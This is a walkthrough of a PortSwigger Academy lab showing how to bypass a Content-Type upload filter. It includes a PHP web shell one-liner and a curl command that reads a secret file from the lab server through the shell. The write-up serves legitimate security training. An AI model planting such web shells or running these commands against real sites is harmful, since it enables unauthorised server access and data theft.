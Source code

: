 # Web shell upload via Content-Type restriction bypass | Dec 16, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass), you'll learn: Web shell upload via Content-Type restriction bypass! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216002619.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216002637.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216002643.png)

In the previous lab, we found the image upload function is vulnerable.

**Let's upload a normal image file and intercept the request via Burp Suite:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003207.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003237.png)

As you can see, we're sending a POST request to `/my-account/avatar`, and **the `Content-Type` is `image/jpeg`.**

**Let's forward that request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003327.png)

It said that the file has been uploaded.

**Next, we can try to upload a PHP web shell one liner, and intercept the request:**
```php
<?php system($_GET['cmd']); ?>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003413.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003434.png)

Now, the `Content-Type` is changed to `application/x-php`.

**But notice what will happened when we forward that request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003543.png)

That being said, looks like we couldn't upload a web shell?

However, the `Content-Type` can be fully-controlled by the attacker.

**We can just simply change the `Content-Type` from `application/x-php` to `image/jpeg` or `image/png`!**

**Let's do that:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003738.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2/images/Pasted%20image%2020221216003754.png)

Boom! We've successfully uploaded the web shell!

**In the previous lab, we found that the uploaded file lives in `/files/avatar/<filename>`. Let's trigger the web shell and `cat` the `secret`!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0aae00cf048ad257c40c7f24001d009d.web-security-academy.net/files/avatars/webshell.php --get --data-urlencode "cmd=cat /home/carlos/secret"
cn37DQhyNzu7Z80CzayF9giYekMXdTDC
```

# What we've learned:

1. Web shell upload via Content-Type restriction bypass